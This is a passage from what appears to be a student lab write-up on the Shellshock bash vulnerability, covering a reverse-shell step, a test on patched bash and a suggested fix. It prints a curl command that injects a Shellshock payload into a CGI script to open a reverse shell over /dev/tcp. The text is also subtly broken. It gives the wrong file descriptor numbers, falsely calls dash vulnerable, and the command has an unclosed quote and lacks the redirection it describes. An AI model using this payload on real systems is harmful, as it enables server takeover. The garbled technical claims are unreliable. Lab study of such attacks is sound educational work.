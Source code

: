 \documentclass[14pt]{extarticle}
\begin{document}
Now that I have a terminal listening for the tcp connection, I can run my exploit to create a new shell, and have the tcp connection act as the input and output device. Since the stdin file is set by the file descriptor 1, and the stdout is set by the descriptor 2, and since I'm pushing the stdin to listen to the tcp connection, I can tell the server to use the same file descriptor for stdin as I use for stdout. This will tell the shell to listen for input and give output using the tcp connection to the attacker's device.
This command will look as follows:
\begin{lstlisting}[language=sh]
curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/bash -i > /dev/tcp/127.0.0.1/8080 http://localhost/cgi-bin/env.cgi
\end{lstlisting}

This command works to give me a shell that I can type and receive output from. I have the permissions of the www-data user, which is fairly limited.


\section{Task 6: Trying the attack in the updated version of the bash}
Since I've been able to exploit to vulnerability while running the attack in the /bin/bash\_shellshock shell, I will try to run the program in the /bin/bash shell to see how it reacts.\\
I will run the same curl command that was executed in the Task 5, but in a patched bash version of bash.\\
Currently the server is set to run the dash shell when the apache server creates a shell, which is vulnerable to the shellshock attack. This means that regardless of what shell the attacker is running, the shell that the server is running will determine if the vulnerability is still there.

\section{Fixing exploit}
To fix this exploit I would suggest running an updated version of bash in the server so that the shellshock attack will be blocked. Currently the server runs the /bin/dash program (which is vulnerable) since it most likely uses a symbolic link to execute a shell rather than a direct link to get the bash shell



\newpage


\end{document}
